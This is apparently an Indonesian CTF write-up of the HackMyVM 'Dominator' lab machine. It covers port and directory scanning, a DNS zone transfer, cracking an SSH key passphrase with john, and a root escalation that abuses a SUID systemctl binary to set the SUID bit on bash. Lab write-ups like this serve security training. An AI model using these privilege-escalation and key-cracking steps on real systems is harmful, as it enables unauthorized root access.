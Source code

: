 ```yaml
---
layout: Post
title: HackMyVM - Dominator Writeup
date: 2021-10-21 10:33 WIB  
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/dominator.zip">Dominator</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/d4t4s3c">d4t4s3c</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialan scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/DOminator]
└─$ nmap -A -p- 192.168.0.199
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-21 09:59 WIB
Nmap scan report for dominator.hmv (192.168.0.199)
Host is up (0.00062s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
53/tcp    open  domain  (unknown banner: not currently available)
| dns-nsid: 
|_  bind.version: not currently available
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    currently available
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
65222/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:ea:48:1a:a3:46:0b:bd:ac:47:73:e8:78:25:af:42 (RSA)
|   256 2e:41:ca:86:1c:73:ca:de:ed:b8:74:af:d2:06:5c:68 (ECDSA)
|_  256 33:6e:a2:58:1c:5e:37:e1:98:8c:44:b1:1c:36:6d:75 (ED25519)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.91%I=7%D=10/21%Time=6170D7A2%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,52,"\0P\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\
SF:x04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x18\x17not\x20curre
SF:ntly\x20available\xc0\x0c\0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

Next setelah kita tahu adanya port 80, kita scan directory apa saja yang ada di web tersebut dengan `gobuster` :

```console
┌──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/DOminator]
└─$ gobuster dir -u http://192.168.0.199 -x php,html,js,txt,png,jpg -w ~/Downloads/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.199
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kiyo/Downloads/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,png,jpg,php,html,js
[+] Timeout:                 10s
===============================================================
2021/10/21 09:45:57 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10701]
/robots.txt           (Status: 200) [Size: 14]   
/server-status        (Status: 403) [Size: 278]  
===============================================================
```

Oke next kita lihat apa si isi dari robots.txt dan ternyata terdapat kata `dominator.hmv`. Oleh karena itu ku coba dig untuk mencari informasi :

```console
┌──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/DOminator]
└─$ dig axfr @192.168.0.199 dominator.hmv                                                                                                                           1 ⨯

; <<>> DiG 9.16.15-Debian <<>> axfr @192.168.0.199 dominator.hmv
; (1 server found)
;; global options: +cmd
dominator.hmv.		604800	IN	SOA	ns1.dominator.hmv. root.dominator.hmv. 2 604800 86400 2419200 604800
dominator.hmv.		604800	IN	NS	ns1.dominator.hmv.
admin.dominator.hmv.	604800	IN	A	192.168.0.12
ns1.dominator.hmv.	604800	IN	A	127.0.0.1
secret.dominator.hmv.	604800	IN	TXT	"/fhcrefrperg"
www.dominator.hmv.	604800	IN	A	192.168.0.11
dominator.hmv.		604800	IN	SOA	ns1.dominator.hmv. root.dominator.hmv. 2 604800 86400 2419200 604800
;; Query time: 8 msec
;; SERVER: 192.168.0.199#53(192.168.0.199)
;; WHEN: Thu Oct 21 10:15:43 WIB 2021
;; XFR size: 7 records (messages 1, bytes 255)
```

Dan ternyata terdapat cipher ROT13. Oleh karena itu ku coba decode dengan `https://rot13.com/`. Dan terdapatlah :

```console
cipher : /fhcrefrperg
output : /supersecret
```

Oleh karena itu ku buka di website and boom terdapat sebuah ssh key, dan karena itu ku coba bruteforce dengan john :

```console
┌──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/T800]
└─$ /opt/john/run/ssh2john.py hans_key >hash         
                                                                                                                                                        
┌──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/T800]
└─$ john hash                                                                                                                                                     
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
a*****           (hans_key)
3g 0:00:00:04  3/3 0.6607g/s 110044p/s 110044c/s 110044C/s astlee
Session aborted
```

## SSH

Oke next login ssh dan user berhasil di dapetin. Oya sebelumnya file user.txt nya telah dihapus jadi ku cari dengan `find / -name user.txt 2>/dev/null` :

```console
note
hans@Dominator:~$ cat note 

the flag "user.txt" was removed .. maybe it's in the trash or maybe not ..

hans@Dominator:~$ find / -name user.txt 2>/dev/null
/home/hans/.local/share/Trash/files/user.txt
hans@Dominator:~$ head /home/hans/.local/share/Trash/files/user.txt
S**********************
```

Next ku coba cari cara untuk masuk ke shell root :

```console
hans@Dominator:~$ find / -perm -4000 2>/dev/null
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/systemctl
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Next ternyata terdapat di `systemctl` yang dimana sebuah SUID yang diperbolehkan dieksekusi oleh hans :

```console
hans@Dominator:~$ TF=$(mktemp).service
hans@Dominator:~$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /usr/bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
hans@Dominator:~$ systemctl link $TF
Created symlink /etc/systemd/system/tmp.TqvIU9SlzE.service → /tmp/tmp.TqvIU9SlzE.service.
hans@Dominator:~$ systemctl enable --now $TF
Created symlink /etc/systemd/system/multi-user.target.wants/tmp.TqvIU9SlzE.service → /tmp/tmp.TqvIU9SlzE.service.
hans@Dominator:~$ bash -p
```

And boom dapetlah shell root dan root.txt :

```console
bash-5.0# cd /root
bash-5.0# ls
root.txt
bash-5.0# cat root.txt 
Z**********************
bash-5.0# 
```
